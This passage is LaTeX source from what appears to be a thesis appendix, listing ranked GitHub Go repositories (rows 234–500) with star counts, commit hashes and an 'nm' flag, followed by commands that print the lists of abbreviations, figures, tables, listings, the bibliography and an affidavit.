        234 &                   linkerd/linkerd2 &  5,574 &    541 &  \texttt{9a02e0d300} &              \\
        235 &                      gofiber/fiber &  5,566 &    199 &  \texttt{38c8bb240d} &              \\
        \rowcolor{verylightgray}
        236 &               kubernetes-sigs/kind &  5,557 &    619 &  \texttt{94031cdb85} &              \\
        237 &                         simeji/jid &  5,554 &    114 &  \texttt{be32ff3178} &              \\
        \rowcolor{verylightgray}
        238 &                         nektos/act &  5,552 &    136 &  \texttt{39667011b8} &              \\
        239 &                        cdr/sshcode &  5,516 &    213 &  \texttt{50e859cd10} &              \\
        \rowcolor{verylightgray}
        240 &                      upspin/upspin &  5,514 &    271 &  \texttt{5ddde7b8e6} &              \\
        241 &                      cilium/cilium &  5,501 &    626 &  \texttt{9b0ae85b5f} &              \\
        \rowcolor{verylightgray}
        242 &                     slackhq/nebula &  5,487 &    308 &  \texttt{ff13aba8fc} &              \\
        243 &                TykTechnologies/tyk &  5,475 &    719 &  \texttt{ce0ee257b6} &              \\
        \rowcolor{verylightgray}
        244 &    kubernetes-sigs/kustomize\ldots &  5,475 &    985 &  \texttt{c1a2bf14da} &  \textit{nm} \\
        245 &           erroneousboat/slack-term &  5,446 &    183 &  \texttt{c19c20a3e5} &              \\
        \rowcolor{verylightgray}
        246 &                     coreos/flannel &  5,406 &  1,665 &  \texttt{485649719b} &  \textit{nm} \\
        247 &                       zserge/lorca &  5,387 &    236 &  \texttt{a3e43396a4} &              \\
        \rowcolor{verylightgray}
        248 &              photoprism/photoprism &  5,386 &    320 &  \texttt{a77b2431d3} &              \\
        249 &            go-playground/validator &  5,355 &    478 &  \texttt{ea924ce89a} &              \\
        \rowcolor{verylightgray}
        250 &             golangci/golangci-lint &  5,347 &    483 &  \texttt{71b2f04e88} &              \\
        251 &                  robertkrimen/otto &  5,343 &    469 &  \texttt{c382bd3c16} &  \textit{nm} \\
        \rowcolor{verylightgray}
        252 &                 filhodanuvem/gitql &  5,330 &    140 &  \texttt{875d794ca2} &              \\
        253 &                docker/distribution &  5,326 &  1,758 &  \texttt{742aab907b} &              \\
        \rowcolor{verylightgray}
        254 &            yeasy/blockchain\_guide &  5,311 &  1,716 &  \texttt{c4d54e552c} &  \textit{nm} \\
        255 &                     adnanh/webhook &  5,281 &    437 &  \texttt{345bf3d409} &              \\
        \rowcolor{verylightgray}
        256 &                   cloudflare/cfssl &  5,272 &    705 &  \texttt{6b49beae21} &              \\
        257 &                     gcla/termshark &  5,229 &    231 &  \texttt{32a152f537} &              \\
        \rowcolor{verylightgray}
        258 &                        go-ego/riot &  5,228 &    367 &  \texttt{a6e6be1c36} &              \\
        259 &                 kubernetes/kompose &  5,211 &    438 &  \texttt{6b018fab7b} &  \textit{nm} \\
        \rowcolor{verylightgray}
        260 &                    flike/kingshard &  5,187 &  1,039 &  \texttt{e5cad209c4} &              \\
        261 &              go-swagger/go-swagger &  5,181 &    817 &  \texttt{c1166eb277} &              \\
        \rowcolor{verylightgray}
        262 &                    fission/fission &  5,136 &    477 &  \texttt{9dd084810f} &              \\
        263 &                       src-d/go-git &  5,052 &    563 &  \texttt{8b0c2116ce} &              \\
        \rowcolor{verylightgray}
        264 &                    olivere/elastic &  5,031 &    902 &  \texttt{639b7f6e0c} &              \\
        265 &                      google/seesaw &  5,027 &    471 &  \texttt{2a7e69077c} &              \\
        \rowcolor{verylightgray}
        266 &                 kardianos/govendor &  5,019 &    402 &  \texttt{e31350db97} &  \textit{nm} \\
        267 &                  tektoncd/pipeline &  5,016 &    823 &  \texttt{cc724c8a79} &              \\
        \rowcolor{verylightgray}
        268 &           yinghuocho/firefly-proxy &  4,988 &    933 &  \texttt{69c2bd0414} &  \textit{nm} \\
        269 &                          akavel/up &  4,968 &    100 &  \texttt{5786314a2b} &              \\
        \rowcolor{verylightgray}
        270 &             dragonflyoss/Dragonfly &  4,961 &    656 &  \texttt{e8a651459f} &              \\
        271 &                bitly/oauth2\_proxy &  4,953 &  1,173 &  \texttt{fa2771998a} &  \textit{nm} \\
        \rowcolor{verylightgray}
        272 &                concourse/concourse &  4,934 &    606 &  \texttt{82a76b6492} &              \\
        273 &                    shirou/gopsutil &  4,931 &    880 &  \texttt{42aec722ba} &  \textit{nm} \\
        \rowcolor{verylightgray}
        274 &                     hashicorp/serf &  4,921 &    504 &  \texttt{5642cc7572} &              \\
        275 &                    ponzu-cms/ponzu &  4,906 &    327 &  \texttt{9bc41b7031} &  \textit{nm} \\
        \rowcolor{verylightgray}
        276 &                         nsf/gocode &  4,865 &    665 &  \texttt{5bee97b488} &  \textit{nm} \\
        277 &                  cortexlabs/cortex &  4,859 &    380 &  \texttt{aae3ff7800} &              \\
        \rowcolor{verylightgray}
        278 &                    perkeep/perkeep &  4,828 &    365 &  \texttt{c2e31370dd} &              \\
        279 &                        rakyll/boom &  4,814 &    347 &  \texttt{e99ce27f08} &  \textit{nm} \\
        \rowcolor{verylightgray}
        280 &                        fluxcd/flux &  4,812 &    850 &  \texttt{3b40b58dfd} &              \\
        281 &                          Jguer/yay &  4,809 &    180 &  \texttt{db3993b83b} &              \\
        \rowcolor{verylightgray}
        282 &                cloudreve/Cloudreve &  4,774 &    925 &  \texttt{14f5982b47} &              \\
        283 &                  chromedp/chromedp &  4,765 &    414 &  \texttt{3976e2ae9c} &              \\
        \rowcolor{verylightgray}
        284 &                       schollz/find &  4,747 &    357 &  \texttt{b69e6fd241} &  \textit{nm} \\
        285 &                      gotify/server &  4,741 &    225 &  \texttt{93b30c5c44} &              \\
        \rowcolor{verylightgray}
        286 &            OpenDiablo2/OpenDiablo2 &  4,721 &    314 &  \texttt{515b66736d} &              \\
        287 &                davecheney/httpstat &  4,698 &    245 &  \texttt{474bdf475e} &              \\
        \rowcolor{verylightgray}
        288 &                    gophish/gophish &  4,684 &    840 &  \texttt{ec8b17238e} &              \\
        289 &                   fiorix/freegeoip &  4,665 &    764 &  \texttt{4693d60f74} &  \textit{nm} \\
        \rowcolor{verylightgray}
        290 &                 inancgumus/learngo &  4,661 &    535 &  \texttt{65e854c4ae} &              \\
        291 &                    appleboy/gorush &  4,642 &    512 &  \texttt{6bad4797b4} &              \\
        \rowcolor{verylightgray}
        292 &                     smallnest/rpcx &  4,640 &    766 &  \texttt{57cd85a346} &              \\
        293 &          prometheus/node\_exporter &  4,603 &  1,158 &  \texttt{b9c96706a7} &              \\
        \rowcolor{verylightgray}
        294 &                      wallix/awless &  4,600 &    232 &  \texttt{44e892b496} &  \textit{nm} \\
        295 &                          miekg/dns &  4,597 &    748 &  \texttt{203ad2480b} &              \\
        \rowcolor{verylightgray}
        296 &                       fnproject/fn &  4,595 &    345 &  \texttt{d55e01ab7d} &              \\
        297 &                        pion/webrtc &  4,587 &    510 &  \texttt{4618922011} &              \\
        \rowcolor{verylightgray}
        298 &              facebookarchive/grace &  4,561 &    362 &  \texttt{75cf193824} &  \textit{nm} \\
        299 &           google/battery-historian &  4,556 &    823 &  \texttt{d2356ba4fd} &  \textit{nm} \\
        \rowcolor{verylightgray}
        300 &                  containers/libpod &  4,549 &    539 &  \texttt{e8818ced80} &              \\
        301 &                  Shopify/toxiproxy &  4,547 &    252 &  \texttt{10f0561d74} &              \\
        \rowcolor{verylightgray}
        302 &                michenriksen/gitrob &  4,543 &    658 &  \texttt{7be4c5306a} &  \textit{nm} \\
        303 &                         dexidp/dex &  4,536 &    964 &  \texttt{0a9f56527e} &              \\
        \rowcolor{verylightgray}
        304 &                           lxn/walk &  4,523 &    668 &  \texttt{55ccb3a9f5} &  \textit{nm} \\
        305 &                   99designs/gqlgen &  4,479 &    441 &  \texttt{40570d1b4d} &              \\
        \rowcolor{verylightgray}
        306 &               lightningnetwork/lnd &  4,468 &  1,263 &  \texttt{703e8acb36} &              \\
        307 &                       fogleman/nes &  4,465 &    393 &  \texttt{c94772f158} &              \\
        \rowcolor{verylightgray}
        308 &                  fsnotify/fsnotify &  4,459 &    518 &  \texttt{7f4cf4dd2b} &              \\
        309 &                MichaelMure/git-bug &  4,456 &    144 &  \texttt{5029cc1e76} &              \\
        \rowcolor{verylightgray}
        310 &                     muesli/beehive &  4,435 &    220 &  \texttt{86804e3b1e} &              \\
        311 &            mongodb/mongo-go-driver &  4,434 &    498 &  \texttt{0c7911fa65} &              \\
        \rowcolor{verylightgray}
        312 &                            qor/qor &  4,416 &    634 &  \texttt{457d2e3f50} &  \textit{nm} \\
        313 &                pachyderm/pachyderm &  4,410 &    417 &  \texttt{2969188a6c} &              \\
        \rowcolor{verylightgray}
        314 &             golang-migrate/migrate &  4,407 &    437 &  \texttt{7236e82911} &              \\
        315 &                        google/gxui &  4,403 &    303 &  \texttt{f85e0a97b3} &  \textit{nm} \\
        \rowcolor{verylightgray}
        316 &             jpillora/cloud-torrent &  4,373 &  1,453 &  \texttt{1a741e3d8d} &  \textit{nm} \\
        317 &               russross/blackfriday &  4,370 &    533 &  \texttt{abb995c466} &              \\
        \rowcolor{verylightgray}
        318 &                   weaveworks/scope &  4,354 &    554 &  \texttt{bf90d56f0c} &              \\
        319 &                       mozilla/sops &  4,343 &    292 &  \texttt{4bc27f6eb7} &              \\
        \rowcolor{verylightgray}
        320 &             gliderlabs/registrator &  4,335 &    854 &  \texttt{4322fe0030} &  \textit{nm} \\
        321 &                         rivo/tview &  4,324 &    258 &  \texttt{fe95322038} &              \\
        \rowcolor{verylightgray}
        322 &             centrifugal/centrifugo &  4,312 &    376 &  \texttt{3cffbd1c8e} &              \\
        323 &                   docker/docker-ce &  4,309 &  1,129 &  \texttt{f3673004e3} &  \textit{nm} \\
        \rowcolor{verylightgray}
        324 &    coreos/prometheus-operato\ldots &  4,303 &  1,949 &  \texttt{b0ab8afe43} &              \\
        325 &                     uber/prototool &  4,266 &    242 &  \texttt{a6d064684c} &              \\
        \rowcolor{verylightgray}
        326 &                  spiral/roadrunner &  4,254 &    223 &  \texttt{af2b441928} &              \\
        327 &    terraform-providers/terra\ldots &  4,251 &  3,966 &  \texttt{64fd8eb362} &              \\
        \rowcolor{verylightgray}
        328 &                    coyove/goflyway &  4,245 &    692 &  \texttt{dfffaed0d1} &  \textit{nm} \\
        329 &                   adonovan/gopl.io &  4,237 &  1,666 &  \texttt{65c318dde9} &  \textit{nm} \\
        \rowcolor{verylightgray}
        330 &                      alibaba/pouch &  4,227 &    945 &  \texttt{6ef73ce06b} &  \textit{nm} \\
        331 &    eranyanay/1m-go-websocket\ldots &  4,215 &    389 &  \texttt{6758771e40} &              \\
        \rowcolor{verylightgray}
        332 &                        tealeg/xlsx &  4,213 &    676 &  \texttt{d2b2b0d0a4} &              \\
        333 &                     Terry-Mao/goim &  4,209 &  1,181 &  \texttt{a8942503cb} &              \\
        \rowcolor{verylightgray}
        334 &             asaskevich/govalidator &  4,197 &    416 &  \texttt{21a406dcc5} &              \\
        335 &                google/git-appraise &  4,180 &    131 &  \texttt{e9b94fd0f2} &  \textit{nm} \\
        \rowcolor{verylightgray}
        336 &                       tidwall/evio &  4,176 &    328 &  \texttt{399d938449} &  \textit{nm} \\
        337 &                        golang/mock &  4,176 &    344 &  \texttt{92f53b0a56} &              \\
        \rowcolor{verylightgray}
        338 &              geektutu/7days-golang &  4,155 &    458 &  \texttt{689a6d01b7} &  \textit{nm} \\
        339 &                      golang/mobile &  4,143 &    514 &  \texttt{4c31acba00} &              \\
        \rowcolor{verylightgray}
        340 &                  MontFerret/ferret &  4,135 &    209 &  \texttt{94f13c66af} &              \\
        341 &               mmcgrana/gobyexample &  4,122 &    817 &  \texttt{448c597a58} &  \textit{nm} \\
        \rowcolor{verylightgray}
        342 &              RichardKnop/machinery &  4,109 &    528 &  \texttt{6d3fd3e756} &              \\
        343 &            AdguardTeam/AdGuardHome &  4,095 &    461 &  \texttt{32d1f385ff} &              \\
        \rowcolor{verylightgray}
        344 &             lucas-clemente/quic-go &  4,079 &    476 &  \texttt{85c19fbb5a} &              \\
        345 &                 gaia-pipeline/gaia &  4,065 &    189 &  \texttt{2654f288c7} &              \\
        \rowcolor{verylightgray}
        346 &                       golang/tools &  4,063 &  1,430 &  \texttt{6be401e3f7} &              \\
        347 &                     twitchtv/twirp &  4,058 &    196 &  \texttt{20edcc73bb} &  \textit{nm} \\
        \rowcolor{verylightgray}
        348 &                        google/gops &  4,053 &    234 &  \texttt{ccffbf8d4a} &              \\
        349 &                       go-acme/lego &  4,043 &    539 &  \texttt{7c3689d08a} &              \\
        \rowcolor{verylightgray}
        350 &                   lifei6671/mindoc &  4,037 &  1,159 &  \texttt{b7d8de8e93} &  \textit{nm} \\
        351 &                       go-yaml/yaml &  4,031 &    678 &  \texttt{0b1645d91e} &              \\
        \rowcolor{verylightgray}
        352 &                gliderlabs/logspout &  4,020 &    646 &  \texttt{301ffe1253} &              \\
        353 &                vmware-tanzu/octant &  3,979 &    265 &  \texttt{ec4170daf8} &              \\
        \rowcolor{verylightgray}
        354 &              EasyDarwin/EasyDarwin &  3,972 &  1,668 &  \texttt{8637f73e52} &  \textit{nm} \\
        355 &                    jpillora/chisel &  3,968 &    468 &  \texttt{5271d7b062} &              \\
        \rowcolor{verylightgray}
        356 &    go-flutter-desktop/go-flu\ldots &  3,964 &    202 &  \texttt{cc310c12f7} &              \\
        357 &                  goproxyio/goproxy &  3,962 &    252 &  \texttt{ead1140c92} &              \\
        \rowcolor{verylightgray}
        358 &                 aquasecurity/trivy &  3,933 &    337 &  \texttt{78b7529172} &              \\
        359 &                    shazow/ssh-chat &  3,925 &    322 &  \texttt{3c4d90cfc1} &              \\
        \rowcolor{verylightgray}
        360 &    hashicorp/consul-template\ldots &  3,914 &    579 &  \texttt{b7641ebcd3} &              \\
        361 &             gruntwork-io/terratest &  3,913 &    521 &  \texttt{16f2895ca3} &              \\
        \rowcolor{verylightgray}
        362 &                     microsoft/ethr &  3,912 &    237 &  \texttt{c1ace168b8} &              \\
        363 &                        onsi/ginkgo &  3,903 &    376 &  \texttt{9304a8cd49} &              \\
        \rowcolor{verylightgray}
        364 &                vmware-tanzu/velero &  3,903 &    614 &  \texttt{e7b668af2a} &              \\
        365 &                        Azure/draft &  3,900 &    414 &  \texttt{3206e97af5} &  \textit{nm} \\
        \rowcolor{verylightgray}
        366 &                    aelsabbahy/goss &  3,898 &    335 &  \texttt{06495afc9d} &              \\
        367 &                 patrickmn/go-cache &  3,889 &    509 &  \texttt{46f4078530} &  \textit{nm} \\
        \rowcolor{verylightgray}
        368 &                   allegro/bigcache &  3,877 &    319 &  \texttt{ccdbc60304} &              \\
        369 &                  dropbox/godropbox &  3,871 &    395 &  \texttt{52ad444d35} &              \\
        \rowcolor{verylightgray}
        370 &            gruntwork-io/terragrunt &  3,868 &    504 &  \texttt{c7694a5534} &              \\
        371 &                      btcsuite/btcd &  3,868 &  1,308 &  \texttt{9f0179fd2c} &              \\
        \rowcolor{verylightgray}
        372 &                    davecgh/go-spew &  3,868 &    246 &  \texttt{d8f796af33} &  \textit{nm} \\
        373 &                    FiloSottile/age &  3,860 &    114 &  \texttt{c9a35c0727} &              \\
        \rowcolor{verylightgray}
        374 &                   cookieY/Yearning &  3,857 &  1,206 &  \texttt{4cf2b0c92b} &              \\
        375 &                 contribsys/faktory &  3,857 &    160 &  \texttt{1d78910fd1} &              \\
        \rowcolor{verylightgray}
        376 &                travisjeffery/jocko &  3,857 &    274 &  \texttt{06647921b3} &              \\
        377 &                  HFO4/gameboy.live &  3,851 &    174 &  \texttt{ddfaa9ce46} &              \\
        \rowcolor{verylightgray}
        378 &                        gonum/gonum &  3,848 &    306 &  \texttt{5f68e0b712} &              \\
        379 &                      goadesign/goa &  3,828 &    433 &  \texttt{05b00660da} &              \\
        \rowcolor{verylightgray}
        380 &                      schollz/find3 &  3,810 &    267 &  \texttt{601134997e} &              \\
        381 &                       motemen/gore &  3,796 &    133 &  \texttt{90b551f3a0} &              \\
        \rowcolor{verylightgray}
        382 &                           go-pg/pg &  3,791 &    288 &  \texttt{7aa4fb28bf} &              \\
        383 &                       elves/elvish &  3,785 &    230 &  \texttt{8af7608382} &              \\
        \rowcolor{verylightgray}
        384 &              uber-archive/go-torch &  3,774 &    217 &  \texttt{86f327cc82} &  \textit{nm} \\
        385 &                     nsf/termbox-go &  3,772 &    315 &  \texttt{38ba6e5628} &  \textit{nm} \\
        \rowcolor{verylightgray}
        386 &    sql-machine-learning/sqlf\ldots &  3,772 &    566 &  \texttt{bd1d181fbc} &              \\
        387 &                      gogo/protobuf &  3,771 &    495 &  \texttt{5628607bb4} &              \\
        \rowcolor{verylightgray}
        388 &                emicklei/go-restful &  3,762 &    576 &  \texttt{7c2556bbbf} &  \textit{nm} \\
        389 &                        google/wire &  3,757 &    189 &  \texttt{978b7803d3} &              \\
        \rowcolor{verylightgray}
        390 &                       uber/cadence &  3,753 &    341 &  \texttt{a1a14830e4} &              \\
        391 &                      tj/node-prune &  3,739 &     91 &  \texttt{1159d4cac8} &              \\
        \rowcolor{verylightgray}
        392 &                    elazarl/goproxy &  3,735 &    732 &  \texttt{49ad98f6da} &              \\
        393 &                      mitchellh/gox &  3,734 &    287 &  \texttt{d8caaff5a9} &              \\
        \rowcolor{verylightgray}
        394 &                   syndtr/goleveldb &  3,728 &    551 &  \texttt{758128399b} &              \\
        395 &                     satori/go.uuid &  3,717 &    496 &  \texttt{b2ce2384e1} &  \textit{nm} \\
        \rowcolor{verylightgray}
        396 &           maxence-charriere/go-app &  3,713 &    173 &  \texttt{157b232cd2} &              \\
        397 &                      wercker/stern &  3,709 &    188 &  \texttt{4fa46dd698} &  \textit{nm} \\
        \rowcolor{verylightgray}
        398 &                        rgburke/grv &  3,698 &     90 &  \texttt{cffa246f92} &  \textit{nm} \\
        399 &               jpmorganchase/quorum &  3,689 &    991 &  \texttt{282b74045a} &  \textit{nm} \\
        \rowcolor{verylightgray}
        400 &                    tophubs/TopList &  3,686 &    688 &  \texttt{04cfb28f8a} &              \\
        401 &                  alexflint/gallium &  3,674 &    137 &  \texttt{29fad37751} &  \textit{nm} \\
        \rowcolor{verylightgray}
        402 &                     oxequa/realize &  3,660 &    192 &  \texttt{498ce46d1b} &              \\
        403 &                 getlantern/lantern &  3,629 & 10,622 &  \texttt{08fd2e3f22} &  \textit{nm} \\
        \rowcolor{verylightgray}
        404 &                     knadh/listmonk &  3,625 &    169 &  \texttt{82702ed5bc} &              \\
        405 &                     panjf2000/ants &  3,624 &    456 &  \texttt{a195593eb7} &              \\
        \rowcolor{verylightgray}
        406 &              tendermint/tendermint &  3,615 &  1,115 &  \texttt{75e19f99ea} &              \\
        407 &                     huichen/wukong &  3,612 &    779 &  \texttt{d014a1f19d} &  \textit{nm} \\
        \rowcolor{verylightgray}
        408 &                        kashav/fsql &  3,605 &    105 &  \texttt{aea2c2b0fa} &  \textit{nm} \\
        409 &                 jwilder/docker-gen &  3,596 &    499 &  \texttt{4edc190faa} &  \textit{nm} \\
        \rowcolor{verylightgray}
        410 &                  fanpei91/torsniff &  3,595 &    897 &  \texttt{e81c707828} &  \textit{nm} \\
        411 &                        zenazn/goji &  3,588 &    242 &  \texttt{a16712d37b} &  \textit{nm} \\
        \rowcolor{verylightgray}
        412 &            sourcegraph/sourcegraph &  3,588 &    365 &  \texttt{32f87ec190} &              \\
        413 &                   gchaincl/httplab &  3,569 &    119 &  \texttt{ddfb5124d4} &              \\
        \rowcolor{verylightgray}
        414 &            alecthomas/gometalinter &  3,560 &    282 &  \texttt{32416ab753} &  \textit{nm} \\
        415 &                     hashicorp/raft &  3,557 &    473 &  \texttt{c95aa91e60} &              \\
        \rowcolor{verylightgray}
        416 &               openark/orchestrator &  3,556 &    573 &  \texttt{76c0a52560} &  \textit{nm} \\
        417 &                   jung-kurt/gofpdf &  3,535 &    438 &  \texttt{a2a0e7f8a2} &              \\
        \rowcolor{verylightgray}
        418 &                      name5566/leaf &  3,533 &    969 &  \texttt{8592b1abbb} &  \textit{nm} \\
        419 &                       OWASP/Go-SCP &  3,531 &    235 &  \texttt{e152aab8cb} &  \textit{nm} \\
        \rowcolor{verylightgray}
        420 &                        golang/lint &  3,518 &    474 &  \texttt{738671d388} &              \\
        421 &                    yuin/gopher-lua &  3,503 &    385 &  \texttt{6ff375d91e} &              \\
        \rowcolor{verylightgray}
        422 &                       jenkins-x/jx &  3,490 &    666 &  \texttt{a3f8cdf623} &              \\
        423 &                  anacrolix/torrent &  3,489 &    413 &  \texttt{c7ea314de0} &              \\
        \rowcolor{verylightgray}
        424 &                99designs/aws-vault &  3,489 &    302 &  \texttt{83ed01d1d1} &              \\
        425 &                  imgproxy/imgproxy &  3,485 &    243 &  \texttt{3dcaeedd45} &              \\
        \rowcolor{verylightgray}
        426 &             googollee/go-socket.io &  3,481 &    570 &  \texttt{88e44eae2d} &              \\
        427 &    operator-framework/operat\ldots &  3,477 &  1,002 &  \texttt{d1dbfc8336} &              \\
        \rowcolor{verylightgray}
        428 &                      tilt-dev/tilt &  3,472 &    113 &  \texttt{9b58b81e77} &              \\
        429 &                   buger/jsonparser &  3,468 &    296 &  \texttt{277c1bf2e4} &              \\
        \rowcolor{verylightgray}
        430 &                        fatih/color &  3,468 &    418 &  \texttt{daf2830f27} &              \\
        431 &                       google/pprof &  3,460 &    299 &  \texttt{427632fa3b} &              \\
        \rowcolor{verylightgray}
        432 &                  ro31337/libretaxi &  3,459 &    799 &  \texttt{64b7e21086} &  \textit{nm} \\
        433 &                    gomatcha/matcha &  3,456 &    147 &  \texttt{d2dd1c5db1} &  \textit{nm} \\
        \rowcolor{verylightgray}
        434 &              open-policy-agent/opa &  3,450 &    404 &  \texttt{b00f6aac6c} &              \\
        435 &              kubesphere/kubesphere &  3,450 &    525 &  \texttt{ea2e87697d} &              \\
        \rowcolor{verylightgray}
        436 &                         hoisie/web &  3,448 &    785 &  \texttt{a498c022b2} &  \textit{nm} \\
        437 &              michenriksen/aquatone &  3,444 &    630 &  \texttt{854a5d56fb} &  \textit{nm} \\
        \rowcolor{verylightgray}
        438 &                    dvyukov/go-fuzz &  3,443 &    205 &  \texttt{be3528f3a8} &  \textit{nm} \\
        439 &                    google/gopacket &  3,433 &    687 &  \texttt{a83d5be3a7} &              \\
        \rowcolor{verylightgray}
        440 &                    Tencent/bk-cmdb &  3,428 &  1,121 &  \texttt{011400903f} &  \textit{nm} \\
        441 &               kubernetes/client-go &  3,422 &  1,464 &  \texttt{f099a72e14} &              \\
        \rowcolor{verylightgray}
        442 &               ant0ine/go-json-rest &  3,417 &    381 &  \texttt{ebb33769ae} &  \textit{nm} \\
        443 &              mozilla-services/heka &  3,408 &    559 &  \texttt{278dd3d596} &  \textit{nm} \\
        \rowcolor{verylightgray}
        444 &                          baidu/bfe &  3,405 &    581 &  \texttt{5f85b4cf4b} &              \\
        445 &                igrigorik/ga-beacon &  3,404 &    341 &  \texttt{3a9a02fc0f} &  \textit{nm} \\
        \rowcolor{verylightgray}
        446 &                    gopasspw/gopass &  3,396 &    286 &  \texttt{0549c36ab0} &              \\
        447 &                letsencrypt/boulder &  3,393 &    417 &  \texttt{286271f0db} &              \\
        \rowcolor{verylightgray}
        448 &                         rs/zerolog &  3,386 &    212 &  \texttt{7825d86337} &              \\
        449 &                        uber/kraken &  3,385 &    205 &  \texttt{1c0ee7ab82} &              \\
        \rowcolor{verylightgray}
        450 &                  jwilder/dockerize &  3,378 &    243 &  \texttt{9ce2e80619} &  \textit{nm} \\
        451 &             mitchellh/mapstructure &  3,374 &    378 &  \texttt{20e21c67c4} &              \\
        \rowcolor{verylightgray}
        452 &                  gorgonia/gorgonia &  3,373 &    301 &  \texttt{5fb5944d4a} &              \\
        453 &                    codegangsta/gin &  3,370 &    277 &  \texttt{cafe2ce989} &  \textit{nm} \\
        \rowcolor{verylightgray}
        454 &                manifoldco/promptui &  3,369 &    157 &  \texttt{e15db71081} &              \\
        455 &                       go-gorp/gorp &  3,361 &    362 &  \texttt{03c0a1b169} &  \textit{nm} \\
        \rowcolor{verylightgray}
        456 &    ansible-semaphore/semapho\ldots &  3,360 &    482 &  \texttt{3db758c066} &  \textit{nm} \\
        457 &               DisposaBoy/GoSublime &  3,351 &    315 &  \texttt{bd0163d030} &  \textit{nm} \\
        \rowcolor{verylightgray}
        458 &                          vugu/vugu &  3,331 &    132 &  \texttt{895fa1f82f} &              \\
        459 &                  heroiclabs/nakama &  3,325 &    355 &  \texttt{8e8e742809} &              \\
        \rowcolor{verylightgray}
        460 &           graph-gophers/graphql-go &  3,324 &    350 &  \texttt{dae41bde9e} &              \\
        461 &                        tsuru/tsuru &  3,323 &    450 &  \texttt{05c44a1bbf} &              \\
        \rowcolor{verylightgray}
        462 &                  ffhelicopter/Go42 &  3,321 &    468 &  \texttt{ad6fd3cfde} &  \textit{nm} \\
        463 &                         burke/zeus &  3,310 &    232 &  \texttt{a77e410c21} &  \textit{nm} \\
        \rowcolor{verylightgray}
        464 &                        tinode/chat &  3,309 &    655 &  \texttt{8c524edf2c} &              \\
        465 &              GoAdminGroup/go-admin &  3,308 &    592 &  \texttt{d2e4932b28} &              \\
        \rowcolor{verylightgray}
        466 &                        OWASP/Amass &  3,306 &    588 &  \texttt{d69ce878a2} &              \\
        467 &                     variadico/noti &  3,305 &     93 &  \texttt{0538ed50e6} &  \textit{nm} \\
        \rowcolor{verylightgray}
        468 &                    ledisdb/ledisdb &  3,297 &    377 &  \texttt{d35789ec47} &              \\
        469 &              gilbertchen/duplicacy &  3,296 &    241 &  \texttt{76f1274e13} &  \textit{nm} \\
        \rowcolor{verylightgray}
        470 &                      nuclio/nuclio &  3,283 &    326 &  \texttt{59cab8961c} &              \\
        471 &                        tianon/gosu &  3,278 &    207 &  \texttt{ad4ec33beb} &  \textit{nm} \\
        \rowcolor{verylightgray}
        472 &                     adtac/commento &  3,273 &    144 &  \texttt{326601394a} &  \textit{nm} \\
        473 &                  meshbird/meshbird &  3,270 &    199 &  \texttt{de2c7fe497} &              \\
        \rowcolor{verylightgray}
        474 &               gwuhaolin/lightsocks &  3,255 &    761 &  \texttt{7e9e1a234b} &              \\
        475 &                     securego/gosec &  3,252 &    245 &  \texttt{6a130d55b3} &              \\
        \rowcolor{verylightgray}
        476 &           astaxie/go-best-practice &  3,249 &    695 &  \texttt{67aa4052f1} &  \textit{nm} \\
        477 &            asticode/go-astilectron &  3,239 &    220 &  \texttt{3961c75232} &              \\
        \rowcolor{verylightgray}
        478 &                   hybridgroup/gocv &  3,234 &    481 &  \texttt{df73d54467} &              \\
        479 &                     streadway/amqp &  3,227 &    480 &  \texttt{1c71cc93ed} &              \\
        \rowcolor{verylightgray}
        480 &                  dominikh/go-tools &  3,210 &    196 &  \texttt{1dc5519e1d} &              \\
        481 &                    BurntSushi/toml &  3,205 &    406 &  \texttt{3012a1dbe2} &  \textit{nm} \\
        \rowcolor{verylightgray}
        482 &                     hasura/gitkube &  3,204 &    154 &  \texttt{ec3d06703f} &  \textit{nm} \\
        483 &                        OJ/gobuster &  3,189 &    549 &  \texttt{92ffe359d2} &              \\
        \rowcolor{verylightgray}
        484 &                     davyxu/cellnet &  3,187 &    744 &  \texttt{a12953d6f6} &              \\
        485 &                bitly/go-simplejson &  3,186 &    440 &  \texttt{39a59b1b28} &              \\
        \rowcolor{verylightgray}
        486 &           AsynkronIT/protoactor-go &  3,182 &    338 &  \texttt{c483abfa40} &              \\
        487 &                         ha/doozerd &  3,181 &    261 &  \texttt{8adec5411b} &  \textit{nm} \\
        \rowcolor{verylightgray}
        488 &              kubernetes/autoscaler &  3,178 &  1,424 &  \texttt{a00bf59159} &  \textit{nm} \\
        489 &            prometheus/alertmanager &  3,169 &  1,191 &  \texttt{97bd078441} &              \\
        \rowcolor{verylightgray}
        490 &                          gobwas/ws &  3,167 &    206 &  \texttt{d1714d5c97} &  \textit{nm} \\
        491 &                 kgretzky/evilginx2 &  3,164 &    602 &  \texttt{fe4e343143} &              \\
        \rowcolor{verylightgray}
        492 &               fullstorydev/grpcurl &  3,160 &    144 &  \texttt{44547153b3} &              \\
        493 &                      gomods/athens &  3,159 &    367 &  \texttt{28d606947a} &              \\
        \rowcolor{verylightgray}
        494 &                       schollz/croc &  3,151 &    155 &  \texttt{0377223a67} &              \\
        495 &                      nytimes/gizmo &  3,145 &    205 &  \texttt{3868112445} &              \\
        \rowcolor{verylightgray}
        496 &             disintegration/imaging &  3,089 &    271 &  \texttt{879073f233} &              \\
        497 &                            gogf/gf &  3,087 &    450 &  \texttt{269378aa0d} &              \\
        \rowcolor{verylightgray}
        498 &              googleforgames/agones &  3,082 &    356 &  \texttt{d017250c43} &              \\
        499 &    kubernetes-sigs/external-\ldots &  3,078 &    926 &  \texttt{deaeca2ab1} &              \\
        \rowcolor{verylightgray}
        500 &                   gwuhaolin/livego &  3,075 &    902 &  \texttt{bf65635cef} &              \\

    \end{supertabular}
}


%% list of acronyms
\clearpage\phantomsection
\addcontentsline{toc}{chapter}{List of Abbreviations}
\printglossary[type=\acronymtype, nonumberlist, title=List of Abbreviations]

%% list of figures
\clearpage\phantomsection
\renewcommand{\listfigurename}[0]{List of Figures}
\addcontentsline{toc}{chapter}{\listfigurename}
\listoffigures

%% list of tables
\clearpage\phantomsection
\renewcommand{\listtablename}[0]{List of Tables}
\addcontentsline{toc}{chapter}{\listtablename}
\listoftables

%% list of listings
\clearpage\phantomsection
\renewcommand{\lstlistingname}[0]{List of Listings}
\renewcommand{\lstlistlistingname}{List of Listings}
\addcontentsline{toc}{chapter}{\lstlistingname}
\lstlistoflistings

%% bibliography
\clearpage\phantomsection\singlespacing
\renewcommand{\bibname}{References}
\addcontentsline{toc}{chapter}{\bibname}
\bibliographystyle{unsrt}
\bibliography{config/references,config/references-no-zotero}

%% declaration (no help etc.)
\affidavit

\end{document}
